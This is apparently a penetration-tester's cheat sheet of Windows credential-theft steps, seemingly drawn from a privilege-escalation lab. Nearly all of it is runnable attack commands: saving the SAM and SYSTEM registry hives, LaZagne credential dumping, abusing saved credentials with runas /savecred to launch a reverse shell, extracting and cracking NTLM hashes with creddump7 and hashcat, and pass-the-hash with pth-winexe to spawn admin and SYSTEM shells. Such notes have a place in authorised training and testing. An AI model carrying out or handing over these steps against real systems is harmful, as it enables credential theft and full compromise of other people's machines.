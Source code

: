 #### Reg save

```batch - target
reg save HKLM\SAM c:\SAM
```

```batch - target
reg save HKLM\System c:\System
```

[[4._File Transfers]]

```bash - kali
samdump2 -o hashes System SAM
```

![[Hashcat#NTLM]]


#### Lazagne

```
lazagne.exe all
```

#### Saved creds
1. Use winPEAS to check for saved credentials:

```batch - windows
.\winPEASx64.exe quiet cmd windowscreds
```

2. It appears that saved credentials for the admin user exist.

3. We can verify this manually using the following command:

```batch - windows
cmdkey /list
```

4. If the saved credentials aren’t present, run the following script to refresh the credential:

```batch - windows
C:\PrivEsc\savecred.bat
```

5. We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:

![[1._rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

```batch - windows
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

#### SAM
1. Backups of the SAM and SYSTEM files can be found in ===C:\Windows\Repair== and are readable by our user.

2. Copy the files back to Kali:

[[4._File Transfers]]

3. Download the latest version of the creddump suite:

```bash - kali
git clone https://github.com/Neohapsis/creddump7.git
```

4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

```bash - kali
python2 creddump7/pwdump.py SYSTEM SAM
```

5. Crack the admin user hash using hashcat:

```bash - kali
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```


#### Pass the Hash
1. Extract the admin hash from the SAM in the previous step.

2. Use the hash with pth-winexe to spawn a command prompt:

```bash - kali
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //$TARGET cmd.exe
```

3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

```bash - kali
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //$TARGET cmd.exe
```
